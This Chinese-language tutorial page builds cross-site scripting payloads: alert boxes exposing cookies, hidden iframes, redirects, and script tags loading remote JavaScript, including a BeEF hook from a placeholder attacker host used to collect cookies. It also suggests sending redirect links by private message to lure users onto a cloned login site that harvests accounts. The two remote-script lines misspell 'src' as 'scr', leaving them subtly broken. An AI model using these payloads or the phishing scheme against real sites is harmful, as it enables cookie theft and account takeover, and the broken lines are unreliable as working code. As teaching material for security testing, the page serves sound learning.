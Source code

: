 ```html
```



##### 常用JavaScript方法

```javascript
alert					// alert()方法用于显示带有一条指定信息和一个确认按钮的警告框
window.location			// window.location对象用于获取当前页面的URL，并把浏览器重定向到新的页面
location.href			// 返回当前显示的文档的完整URL
onload					// 一张页面或一副图像完成加载
onsubmit				// 确认按钮被点击
onerror					// 在加载文档或图像时发生错误
```



##### 构造XSS脚本

**弹框警告**：

```html
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>
```

说明：
	此脚本实现弹框提示，一般作为漏洞测试或这演示使用，类似SQL注入漏洞测试中的**单引号**，一旦脚本能执行也就意味着后端服务器没有对特殊字符做过滤，也即证明这个页面位置存在XSS漏洞。



**页面嵌套**：

```html
<iframe src="https://www.baidu.com width=300 height=300"></iframe>
<iframe src="https://www.baidu.com width=0 height=0 border=0"></iframe>
```



**页面重定向**：

```html
<script>window.location="https://www.baidu.com"</script>
<script>location.href="https://www.baidu.com"</script>
```



**弹框警告并重定向**：

```html
<script>alert("请移步到我们的新网站");location.href="https://www.baidu.com"</script>
<script>alert('XSS');location.href="https://www.baidu.com/robots.txt"</script>
```

- 这里结合了一些社工 的思路，例如，通过网站内部私信的方式将其发送给其他用户。如果其他用户点击并且相信了这个信息，则可能在另外的站点重新登录账户（克隆网站收集账户）



**访问恶意代码**：

```html
<script scr="http://www.qfedu.com/xss.js"></script>
<script scr="http://BeEF_IP:3000/hook.js"></script>   #结合BeEF收集用户的cookie
```
